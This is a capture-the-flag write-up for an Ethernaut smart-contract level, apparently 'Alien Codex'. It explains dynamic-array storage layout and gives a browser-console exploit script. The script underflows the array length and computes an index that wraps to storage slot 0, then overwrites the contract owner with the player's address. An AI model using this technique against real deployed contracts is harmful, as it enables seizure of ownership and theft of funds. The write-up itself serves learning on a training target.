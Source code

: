 ## This can be solved entirely on the ethernaut page via browser

First we'd need to understand the contract storage layout:

In the case of a dynamic array, the reserved slot p contains the length of the array as a uint256, and the array data itself is located sequentially at the address keccak256(p).
```
slot 0: owner, contact
slot 1: codex.length
// ...
slot keccak(1): codex[0]
slot keccak(1) + 1: codex[1]
slot keccak(1) + 2: codex[2]
slot keccak(1) + 3: codex[3]
slot keccak(1) + 4: codex[4]
// ...
```

Note that the array items wrap around after they reached the max storage slot of 2^256 - 1. Using a bit of math we can find the codex index that writes to the owner variable at storage slot 0:
```
need to find array index that maps to 0 mod 2^256
i.e., keccak(1) + index mod 2^256 = 0
<=> index = -keccak(1) mod 2^256
<=> index = 2^256 - keccak(1) as keccak(1) is in range
```

Code for solving this challenge:
```
// we need to call this function to pass the modifier to call other functions
await challenge.make_contact()

// by doing this, we can make it overflow to cover all the storage
await challenge.retract();

// getting the index in which to revise the data
p = web3.utils.keccak256(web3.eth.abi.encodeParameters(["uint256"], [1]))
i = BigInt(2**256) - BigInt(p)

// generating the content to replace the owner address
// can use `await web3.eth.getStorageAt(contract.address, 0, console.log)` to check the existing value (includes both owner address and contact bool)
content = "0x" + "0".repeat(24) + player.slice(2) 

// finally, revise the data in the owner address slot
// by using the content above, we've also altered the contact boolean from true to false
await contract.revise(i, content)
```